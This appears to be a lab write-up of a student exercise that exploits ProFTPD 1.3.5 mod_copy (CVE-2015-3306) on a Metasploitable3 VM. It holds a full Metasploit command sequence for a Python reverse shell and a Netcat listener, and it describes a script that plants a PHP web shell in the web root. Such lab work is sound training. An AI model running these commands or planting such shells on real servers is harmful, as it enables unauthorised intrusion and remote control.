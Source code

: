 ## Step 1: Identifying Metasploitable3's IP Address

To get started, we needed the IP address of the Metasploitable3 machine. We ran the `ifconfig` command directly inside the VM and picked up the address assigned by the NAT network.

- **IP Found:** `10.0.2.7`

![IP Discovery](Screenshots/A-FindIP-Metasplot.png)

---

### Step 2: Checking Network Connectivity

Before trying anything fancy, we made sure the attacker (Kali Linux) could talk to the victim (Metasploitable3). A simple `ping` to the target IP confirmed everything was good — no packet loss.

- **Target IP:** `10.0.2.7`

![Ping Test](Screenshots/B-Connect.png)

---

### Step 3: Port and Service Scanning

Next up, we needed to figure out what was open and running. We went with a full version scan using `nmap` to get a complete picture of the services available for exploitation.

![Nmap Scan](Screenshots/C-FindPorts.png)

---

## Step 4: Exploiting ProFTPD 1.3.5 via `proftpd_modcopy_exec`

Turns out, **ProFTPD 1.3.5** was running — a known vulnerable version. Using Metasploit, we loaded up the `unix/ftp/proftpd_modcopy_exec` module and prepped it for a reverse shell back to Kali.

![msfconsole](Screenshots/D-msfconsole.png)

### Attack Summary

- **Victim IP:** `10.0.2.7`
- **Attacker IP:** `10.0.2.5`
- **Vulnerable Service:** ProFTPD 1.3.5
- **Module Used:** `exploit/unix/ftp/proftpd_modcopy_exec`
- **Payload:** `cmd/unix/reverse_python`
- **Target Directory:** `/var/www/html`

### Commands Overview

```bash
msfconsole
search proftpd 1.3.5
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOST 10.0.2.7
set LHOST 10.0.2.5
show payloads
set payload cmd/unix/reverse_python
set SITEPATH /var/www/html
set AllowNoCleanup true
set DisablePayloadHandler true
exploit
```

---

## Step 5: Reverse Shell Success!

After launching the attack, we triggered the payload by visiting the uploaded file on the victim’s web server. Success! The shell came back, giving us control.

![Victim Shell](Screenshots/E-VictimShell.png)

### Setting Up the Listener

On Kali, we had a Netcat listener ready and waiting on port 4444:

```bash
nc -lvnp 4444
```

---

## Task 1.2: Automating the Exploit with a Custom Script

Instead of manually exploiting ProFTPD, we used a Python script to automate the whole thing.

### Running the Script

From the `/Downloads` folder, we ran:

```bash
python3 Script.py
```

![Running Script](Screenshots/F-RunningScript.png)

### What the Script Does

- Creates a PHP reverse shell (`exploit.php`)
- Uploads it to `/var/www/html/` using ProFTPD’s mod_copy commands
- Provides the URL to trigger the payload manually

### Proof of File Upload

After using the script, we confirmed the file was uploaded by listing the web server directory:

```bash
set CMD ls -l /var/www/html
run
```

![Uploaded Files](Screenshots/G-uploadingFile.png)

---

### Final Confirmation

- Reverse shell connection: Confirmed.
- Script functionality: Verified.
- Payload visibility: `/var/www/html/`
- Task 1.2: Completed.

![PHP Files Uploaded](Screenshots/H-phpFilesUploaded.png)

---

## How the Script Works (Step-by-Step)

### 1. Payload Generation
- Generates `exploit.php`, capable of either reverse shells or executing commands via:

```
http://<victim-ip>/exploit.php?cmd=<command>
```

### 2. Exploiting FTP mod_copy
- Uses the `SITE CPFR` and `SITE CPTO` FTP commands to move the payload into the web root.

### 3. Attacker Instructions
- The script tells you where your payload lives and how to trigger it.

---

## Why ProFTPD mod_copy?

- **CVE-2015-3306** makes it a juicy target.
- Anonymous access? No credentials needed.
- Works flawlessly against Metasploitable3.
